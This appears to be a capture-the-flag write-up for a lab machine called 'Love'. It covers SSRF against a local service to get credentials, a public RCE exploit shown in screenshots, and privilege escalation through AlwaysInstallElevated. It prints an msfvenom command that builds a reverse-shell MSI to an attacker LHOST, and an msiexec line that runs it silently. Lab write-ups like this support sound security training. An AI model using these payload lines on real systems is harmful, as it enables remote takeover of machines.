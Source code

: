 # Love

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (8) (7) (1).png" alt=""><figcaption></figcaption></figure>

Lots of ports open.

### TLS Cert Checking

Port 80 reveals a voting system that requries credentials. Port 5000 was blocked off for whatever reason.

<figure><img src="../../../.gitbook/assets/image (49) (4).png" alt=""><figcaption></figcaption></figure>

A bit of enumeration on the type of service running reveals that it was an outdated software with loads of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (39) (1) (3).png" alt=""><figcaption></figcaption></figure>

Checking the certificate on port 443 reveals a hidden sub-domain.

<figure><img src="../../../.gitbook/assets/image (8) (2) (4).png" alt=""><figcaption></figcaption></figure>

We can add this to the `/etc/hosts` file and view it.

### SSRF --> Authenticated RCE

The sub-domain found reveals this:

<figure><img src="../../../.gitbook/assets/image (20) (8) (1).png" alt=""><figcaption></figcaption></figure>

Signing up and viewing it would direct us to this page:

<figure><img src="../../../.gitbook/assets/image (36) (1) (2).png" alt=""><figcaption></figcaption></figure>

I was able to get hits on a HTTP server hosted on my machine, but I could not download or execute anything. Since it was the server sending requests, I tried to enter `http://localhost:5000` and was returned this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

With credentials, we now get a shell using an RCE exploit that is publicly available. Just change the settings here:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then run the exploit:

<figure><img src="../../../.gitbook/assets/image (42) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated

When on the machine, I ran winPEAS to enumerate for me and found that `AlwaysInstallElevated` was set to 1.

<figure><img src="../../../.gitbook/assets/image (4) (4) (4).png" alt=""><figcaption></figcaption></figure>

What this exploit allows us to do is execute commands as the Administrator user through `msiexec`. As such, we would first need to generate a quick reverse shell using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o rev.msi

# on target
msiexec /quiet /qn /i C:\directory\to\rev.msi
```

Afterwards, we would get a shell as the administrator:

<figure><img src="../../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>
